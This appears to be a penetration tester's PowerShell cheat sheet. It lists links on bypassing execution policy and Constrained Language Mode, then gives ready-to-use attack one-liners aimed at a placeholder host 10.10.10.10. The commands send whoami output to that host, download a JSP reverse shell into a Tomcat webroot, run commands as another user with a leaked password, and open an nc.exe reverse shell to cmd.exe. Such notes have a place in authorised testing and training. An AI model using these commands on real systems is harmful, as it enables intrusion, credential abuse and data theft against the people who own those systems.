 # powershell

* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6
* https://adsecurity.org/?p=2921
* https://blogs.technet.microsoft.com/kfalde/2017/01/20/pslockdownpolicy-and-powershell-constrained-language-mode/
* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6
* https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/
* https://pen-testing.sans.org/blog/2016/05/25/sans-powershell-cheat-sheet/
* https://blog.backslasher.net/wget-in-powershell-v3.html
* https://pentestn00b.wordpress.com/2017/03/20/simple-bypass-for-powershell-constrained-language-mode/
* https://medium.com/tsscyber/pentesting-and-hta-bypassing-powershell-constrained-language-mode-53a42856c997
* https://bohops.com/2018/01/07/executing-commands-and-bypassing-applocker-with-powershell-diagnostic-scripts/

Bypass of CLM : https://github.com/padovah4ck/PSByPassCLM




## Data exfiltration :

```
Invoke-WebRequest -Method POST -Body (whoami | Out-String) -Uri http://10.10.10.10:4444
```

## file upload

```
Invoke-WebRequest 'http://10.10.10.10/jsp-reverse.jsp' -OutFile c:\tomcat\apache-tomcat\webapps\ROOT\Eewoo8EiVufohkiTh1Duunue4.jsp
```

## Other user execution

```
$password = 'leaked-passowrd' | ConvertTo-SecureString -AsPlainText -force; $username='WINDEV\user';$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username, $password;
Invoke-Command -Credential $cred -ComputerName . -ScriptBlock {Invoke-WebRequest -Method POST -Body (whoami | Out-String) -Uri http://10.10.10.10:4444}
```

## Other user execution reverse shell
```
Invoke-Command -Credential $cred -ComputerName . -ScriptBlock {Invoke-WebRequest -Method POST -Body (c:\users\user\nc.exe -e cmd.exe 10.10.10.10 443 2>&1 | Out-String) -Uri http://10.10.10.10:4444}
```


